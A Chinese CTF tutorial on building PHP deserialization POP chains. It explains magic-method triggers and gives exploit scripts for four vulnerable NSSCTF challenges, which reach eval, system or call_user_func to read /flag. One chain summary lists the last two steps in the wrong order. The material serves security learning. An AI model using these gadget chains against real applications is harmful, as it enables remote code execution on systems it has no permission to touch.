

# PHP反序列化总结（POP链）-先知社区

> **来源**: https://xz.aliyun.com/news/16664  
> **文章ID**: 16664

---

# 前言

针对php反序列化的操作，在ctf中经常会遇到此类题型，在代码审计中，也是一个热门的板块，利用反序列化的操作，来达到执行我们恶意的命令，从而获得shell或者其他东西。这篇文章主要是针对于，CTF中的反序列化题型中POP链构造的讲解。

# 前置知识

## PHP中的魔术方法

魔术方法：魔术方法是PHP面向对象中特有的特性。它们在特定的情况下被触发，都是以双下划线开头，你可以把它们理解为钩子，利用模式方法可以轻松实现PHP面向对象中重载（Overloading即动态创建类属性和方法）。魔术方法很多还是成对出现的，以下列出目前PHP中所有的模式方法。以两个下划线开始，表示这些方法在php特定事件下将会被触发。

以下将会列出常见的魔术方法。

```
__construct()    //用于在创建对象时自动触发当使用 new 关键字实例化一个类时，会自动调用该类的 __construct() 方法
__destruct()     //__destruct() 用于在对象被销毁时自动触发对象的销毁对象的引用计数减少为零来触发
__sleep()        //序列化serialize() 函数会检查类中是否存在一个魔术方法sleep()。如果存在，该方法会先被调用，然后才执行序列化操作。此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组
__wakeup()       //用于在反序列化对象时自动调用unserialize() 会检查是否存在一个 wakeup() 方法，如果存在，则会先调用wakeup()方法
__tostring()     //__tostring() 在对象被当做字符串处理时自动调用比如echo、==、preg_match()
__invoke()       //__invoke() 在对象被当做函数处理时自动调用
__call()         //__call($method, $args) 在调用一个不存在的方法时触发, $args是数组的形式
__callStatic()   //__callStatic() 在静态调用或调用成员常量时使用的方法不存在时触发
__set()          //__set() 在给不存在的成员属性赋值时触发
__isset()        //__isset() 在对不可访问属性使用 isset() 或empty() 时会被触发
__unset()        //__unset() 在对不可访问属性使用 unset() 时会被触发
__clone()        //__clone() 当使用 clone 关键字拷贝完成一个对象后就会触发 
__get()          //__get() 当尝试访问不可访问属性时会被自动调用
```

上述的魔术方法，会在pop链的构造中经常看见，所以要熟练的快速的找到pop链需要对上述魔术方法的触发条件熟悉，不然可能做题会存在一定的生疏且pop链构造错误。

# 正文

## POP链的构造思路

首先，一般的CTF题目中，不会存在很多的类，最多是5-7个类，可能会更多，但是有的题也会存在迷惑你的类，真正构造pop链的类也不会超过许多。这些都无所谓，我们需要找到一个重要的类，也就是POP链子的尾巴，也就是我们真正执行命令的地方。然后根据魔术方法进行反推，这里我将提供一个简便的方法，我们首尾结合看，入口一般多是创建对象或者销毁对象时的魔术方法（如：\_\_wakeup,或者\_\_destruct）。确定了入口以及尾巴，中间的桥梁的判断会变得更清晰一点。下面我将会以多个例题，讲解如何快速的找到POP链。

​

### ser1

#### 题目来源：<https://www.nssctf.cn/problem/5816>

```
<?php
highlight_file(__FILE__);
error_reporting(0);
class step0ne{
    public $Manbo;
    public $Omogeli;
    public function __destruct(){
        echo $this->Manbo;
    }
}
class steptw0{
    public $zabuzabu;
    public $yedayeda;
    public function __tostring(){
        $this->zabuzabu->manbo();
    }
    
}
class stepthr33{
    public $hajimi;
    public $amiluosi;
    public function __call($method, $args){
        eval($this->hajimi);
    }
}
$a=$_GET['CTF'];
unserialize($a);
?>
```

上述代码，我们能看见，只有三个类。那这个pop链的构造，就相对来说，会简单一点，按照我们上面的构造思路

先看尾巴，我们看代码中，能发现，在类stepthr33中存在一个方法，\_\_call中存在危险函数eval，那肯定要用这个来执行我们的命令，尾巴找到了，那这个时候，我们的入口在哪里呢，上述思路也提到了，一般常见的魔术方法，例如：\_\_wakeup,或者\_\_destruct 就是我们的入口，那这里，我们可以看见在类step0ne中存在入口方法。现在就是要利用类stepw0进行桥梁的搭建，\_\_tostring的方法的触发方式：在对象被当做字符串处理，例如echo，==，preg\_match()等函数，所以，入口中的函数我们就看见了

```
public function __destruct(){
        echo $this->Manbo;
```

这个地方如果我们把$Manbo赋值成steptw0的实例化后的对象，那这样，不就会触发了\_\_tostring这个方法了嘛。然后再把类steptw0中的$zabuzabu 赋值成stepthr33实例化后的对象，我们再看\_\_call的触发情况，在调用一个不存在的方法时触发，这个地方在第二个类中，我们可以发现

```
public function __tostring(){
        $this->zabuzabu->manbo();
    }
```

这个地方是不是调用了一个manbo()方法，但是这个方法，是不存在的，所以我们就成功触发。这样我们的pop链就已经完成了。现在就是在类stepthr33中的$hajimi进行赋值，这个地方直接赋值命令。

所以exp如下：

```
<?php
highlight_file(__FILE__);
error_reporting(0);
class step0ne{
    public $Manbo;
    public $Omogeli;
    public function __destruct(){
        echo $this->Manbo;
    }
}
class steptw0{
    public $zabuzabu;
    public $yedayeda;
    public function __tostring(){
        $this->zabuzabu->manbo();
    }

}
class stepthr33{
    public $hajimi;
    public $amiluosi;
    public function __call($method, $args){
        eval($this->hajimi);
    }
}
$a = new step0ne();
$a->Manbo = new steptw0();
$a->Manbo->zabuzabu = new stepthr33();
$a->Manbo->zabuzabu->hajimi = 'system("cat /flag");';
echo serialize($a);
?>
```

建议大家写pop链的时候，创建的变量越少越好，一个是能清晰的看见POP链的顺序，另一个也是变量越少可读性，还有自己编写的时候，即使写错了，也能快速的修改回来。



### ser2

#### 题目来源：<https://www.nssctf.cn/problem/5819>

```
<?php
class step0ne{
    public $nl;
    public $tac;
    public $less;
    public function __wakeup(){
        $this->nl->base64;
    }
    
}
class steptw0{
    public $rev;
    public $uniq;
    public $more;
    public function __get($name){
        $this->rev->tail='sed';
    }

}
class stepthr33{
    public $sort;
    public $file;
    public $head;
    public function __set($name, $value){
        system($this->sort);
    }
}
$a=$_GET['CTF'];
unserialize($a);
?>
```

同上一题，这题还是老样子三个类，尾巴就不多说了，能执行命令的类stepthr33。然后入口类step0ne

中的类用来作为桥梁进行串接，那我们看看\_\_get以及\_\_set的触发方式分别是：当尝试访问不可访问属性时会被自动调用；在给不存在的成员属性赋值时触发

那其实exp已经出来了：

```
<?php
class step0ne{
    public $nl;
    public $tac;
    public $less;
    public function __wakeup(){
        $this->nl->base64;
    }

}
class steptw0{
    public $rev;
    public $uniq;
    public $more;
    public function __get($name){
        $this->rev->tail='sed';
    }

}
class stepthr33{
    public $sort;
    public $file;
    public $head;
    public function __set($name, $value){
        system($this->sort);
    }
}
$a=new step0ne();
$a->nl=new steptw0();
$a->nl->rev=new stepthr33();
$a->nl->rev->sort='cat /flag';
echo serialize($a);
?>
```

看链子，这个地方，我们将类step0ne中的$nl赋值为steptw0实例化后的对象，那这个地方base64不存在值，那\_\_get是不是就被触发了，下一步的\_\_set的方法，并不存在tail成员，所以也触发了。

上述两个例子都是较为简单的三个类。那如果类一多，我们该如何准确的构造POP链呢？接下来继续往下看

### Ser3

#### 题目来源：<https://www.nssctf.cn/problem/5807>

```
<?php
highlight_file(__FILE__);
error_reporting(0);
class step0ne{
    public $mimi;
    public $miao;
    public function __destruct(){
        $this->mimi=='nohajimi';
    }
}
class steptw0{
    public $maomao;

    public $maoer;
    public function __tostring(){
        $this->maomao->nohajimi;
    }
}
class stepthr33{
    public $ju;
    
    public $sanhua;
    public function __get($name){
        $this->ju->sanhua='cute';
    }
}
class stepf0ur{
    public $nainiu;
    public $momo;
    public function __set($name, $value){
        $this->nainiu->funny();

    }
}
class stepfinall{
    public $momo;
    public $shufu;
    public function __call($method, $args){
        system($this->momo);
    }
}
$a=$_GET['CTF'];
unserialize($a);
```

我们可以看见，上述这个题目，就存在的类就比较多了，五个类。还是老样子，我们首先还是找到链子的尾巴，以及链子的入口。这些都是第一步该我们做的，老样子，尾巴很好找，类stepfinall。入口同上述题目一样，类step0ne。

现在就是考虑剩下的桥梁该如何构建了，我们可以根据尾巴以及入口的类中的魔术方法里面的内容，来进行辨别：

```
class step0ne{
    public $mimi;
    public $miao;
    public function __destruct(){
        $this->mimi=='nohajimi';
    }
}
```

先看入口，这个地方\_\_destruct()是直接赋值了，赋值，我们能想到的是什么？上述提到过\_\_tostring的触发方式  
\_\_tostring() 在对象被当做字符串处理时自动调用比如echo、==、preg\_match()

那就证明入口后面的类该是包含\_\_tostring()函数的类。

再看尾巴，

```
class stepfinall{
    public $momo;
    public $shufu;
    public function __call($method, $args){
        system($this->momo);
    }
```

这个地方\_\_call的触发方式是调用一个不存在的方法时，就会触发。我们抓住重点，调用方法，那我们现在就需要去看，哪一个类中的魔术方法存在方法的调用或者利用。

阅读代码后，我们能发现，在类stepf0ur中，存在上述情况

```
class stepf0ur{
    public $nainiu;
    public $momo;
    public function __set($name, $value){
        $this->nainiu->funny();

    }
}
```

其中的\_\_set方法，中存在了一个方法的利用：$this->nainiu->funny();

这样我们成功的找到了链子的大半部分：

```
__destruct->__tostring->???->__call->__set
```

这个地方中间的链子未知的部分，也只剩下了最后一个类stepthr33，那完整的链子就出现了

```
__destruct->__tostring->__get->__call->__set
```

所以exp

```
<?php
highlight_file(__FILE__);
error_reporting(0);
class step0ne{
    public $mimi;
    public $miao;
    public function __destruct(){
        $this->mimi=='nohajimi';
    }
}
class steptw0{
    public $maomao;

    public $maoer;
    public function __tostring(){
        $this->maomao->nohajimi;
    }
}
class stepthr33{
    public $ju;

    public $sanhua;
    public function __get($name){
        $this->ju->sanhua='cute';
    }
}
class stepf0ur{
    public $nainiu;
    public $momo;
    public function __set($name, $value){
        $this->nainiu->funny();

    }
}
class stepfinall{
    public $momo;
    public $shufu;
    public function __call($method, $args){
        system($this->momo);
    }
}
$a=new step0ne();
$a->mimi=new steptw0();
$a->mimi->maomao=new stepthr33();
$a->mimi->maomao->ju=new stepf0ur();
$a->mimi->maomao->ju->nainiu=new stepfinall();
$a->mimi->maomao->ju->nainiu->momo='cat /flag';
echo serialize($a);
```

这就是不止3个类的pop链构造。我们再来熟悉这个过程

​

### [SWPUCTF 2024 秋季新生赛]大圣升级之路

#### 题目来源：<https://www.nssctf.cn/problem/5945>

```
<?php

error_reporting(0);
show_source("index.php");

class 眼见喜{

    private $幽魂;
    private $黑熊精; 
    public function __wakeup(){
        if($this->幽魂 == "die"){
            echo 'level up to 1';
            $避火罩=$this->黑熊精;
            return $避火罩();
        }else{
            echo '幽魂都打不赢？';
        }
    }
}

class 耳听怒{
    private $虎先锋;
    private $黄风大圣;
    public function __invoke(){
        if(is_numeric($this->虎先锋) && md5($this->虎先锋) == 0){
            echo $this->黄风大圣;
            echo 'level up to 2';
        }else{
            die('继续刷虎先锋吧');
        }
        
    }
}

class 鼻嗅爱{
    private $亢金龙;
    private $定风珠;
    private $黄眉;
    public function __toString() {
        $this->亢金龙 = '飞天';
        $this->定风珠 = '落地';
        if($this->亢金龙 == '飞天'){
            die('亢金龙怎么才能落地呢？');
        }elseif($this->亢金龙 == '落地') {
            echo 'level up to 3';
            return $this->黄眉->后天人种袋;
            
        }
    }
}

class 舌尝思{
    private $四妹;
    private $百眼魔君;
    public function __get($name) {
        if($this->四妹 == '丹药'){
            echo 'level up to 4';
            $this->百眼魔君->女儿 = $name;
        }
    }
}

class 身本忧{
    private $左轮;
    private $夜叉;
    public function __set($右轮, $value) {
        echo 'level up to 5';
        return $this->夜叉->风火轮($this->左轮);
    }

}

class 意见欲{
    private $身份='天命人';
    private $如意金箍棒;
    private $大声套装;
    public function __call($骚年, $金箍) {
        if($this->身份 != '齐天大圣'){
            die('小小猢狲，一边玩去');
        }
        call_user_func($this->如意金箍棒,$this->大声套装);
    }
}

$p = $_GET['p'];
unserialize($p);
```

这个题目存在更多的类了，足足存在6个，但是我们还是老方法，先找到入口，以及尾巴，再看入口和尾巴能够相互触发的两个类。入口类“眼见喜”没啥好说的，\_\_wakeup。尾巴类“意见欲”其中的魔术方法\_\_call中的函数call\_user\_func能够执行命令。  
再看入口类

```
class 眼见喜{
    private $幽魂;
    private $黑熊精; 
    public function __wakeup(){
        if($this->幽魂 == "die"){
            echo 'level up to 1';
            $避火罩=$this->黑熊精;
            return $避火罩();
        }else{
            echo '幽魂都打不赢？';
        }
    }
}
```

我们看他条件如果满足了$this->幽魂 == "die"，就会return 一个函数回来，那我们这里可以发现：

魔术方法：\_\_invoke的触发条件是：在对象被当做函数处理时自动调用

那我们找到了入口后面的类：“耳听怒”

我们注意到，我们查看类“耳听怒”

```
class 耳听怒{
    private $虎先锋;
    private $黄风大圣;
    public function __invoke(){
        if(is_numeric($this->虎先锋) && md5($this->虎先锋) == 0){
            echo $this->黄风大圣;
            echo 'level up to 2';
        }else{
            die('继续刷虎先锋吧');
        }
        
    }
}
```

当满足了if条件后，会echo $this->黄风大圣，相当于是一个字符串，那我们能自然而然的想到魔术方法  
\_\_tostring。那相当于找到了第三个类：“鼻嗅爱”

我们现在再来分析尾巴：

```
class 意见欲{
    private $身份='天命人';
    private $如意金箍棒;
    private $大声套装;
    public function __call($骚年, $金箍) {
        if($this->身份 != '齐天大圣'){
            die('小小猢狲，一边玩去');
        }
        call_user_func($this->如意金箍棒,$this->大声套装);
    }
}
```

魔术方法\_\_call的触发条件：调用一个不存在的方法时，被触发

那这里我们发现了类：“身本忧”

```
class 身本忧{
    private $左轮;
    private $夜叉;
    public function __set($右轮, $value) {
        echo 'level up to 5';
        return $this->夜叉->风火轮($this->左轮);
    }

}
```

他会return $this->夜叉->风火轮($this->左轮);

这个地方是不存在这个风火轮的方法的，如果这个夜叉被赋值为实例化之后的尾巴，那相当于触发了最后一个函数\_\_call。到这里我们的链子逐渐清晰

```
__wakeup->__invoke->__tostring->__get->__set->__call
```

链子清晰了，我们要处理一个问题，由于上述代码中所有的类，都存在一个问题，私有属性的变量，无法直接引用，这个的解决方法：在高版本的php中，一般都可以忽略成员变量的可访问性

那我们可以直接把private换成public即可  
再来，每个类中都存在一些小条件，这里不过多赘述，只是对类"鼻嗅爱"的条件，稍作解释

```
class 鼻嗅爱{
    private $亢金龙;
    private $定风珠;
    private $黄眉;
    public function __toString() {
        $this->亢金龙 = '飞天';
        $this->定风珠 = '落地';
        if($this->亢金龙 == '飞天'){
            die('亢金龙怎么才能落地呢？');
        }elseif($this->亢金龙 == '落地') {
            echo 'level up to 3';
            return $this->黄眉->后天人种袋;
            
        }
    }
}
```

为了绕过if,只有让亢金龙 == ‘落地’,但是赋值肯定是不行的,因为反序列化的时候还是会是亢金龙 == ‘飞天’,故使用引用  
因为定风珠 = ‘落地’, 所以亢金龙=&定风珠 ,亢金龙等于定风珠的值

所以完整的exp

```
<?php

error_reporting(0);
show_source("index.php");

class 眼见喜{

    public $幽魂='die';
    public $黑熊精;

}

class 耳听怒{
    public $虎先锋='240610708';
    public $黄风大圣;

}

class 鼻嗅爱{
    public $亢金龙;
    public $定风珠;
    public $黄眉;

}

class 舌尝思{
    public $四妹='丹药';
    public $百眼魔君;

}

class 身本忧{
    public $左轮;
    public $夜叉;


}

class 意见欲{
    public $身份='齐天大圣';
    public $如意金箍棒='system';
    public $大声套装='cat /flag';

}
$a=new 眼见喜();
$a->黑熊精=new 耳听怒();
$a->黑熊精->黄风大圣=new 鼻嗅爱();
$a->黑熊精->黄风大圣->定风珠=&$a->黑熊精->黄风大圣->亢金龙;
$a->黑熊精->黄风大圣->黄眉=new 舌尝思();
$a->黑熊精->黄风大圣->黄眉->百眼魔君=new 身本忧();
$a->黑熊精->黄风大圣->黄眉->百眼魔君->夜叉=new 意见欲();
echo serialize($a);
```

​

​

# 总结

看到这里，相信你对于常见的POP链的构造已经有了大致的思路与解题方式，值得我们注意的是，现在大多数的反序列化，会穿插一些其他的php特性的小问题，笔者在这里提醒大家，多去总结和记忆即可。
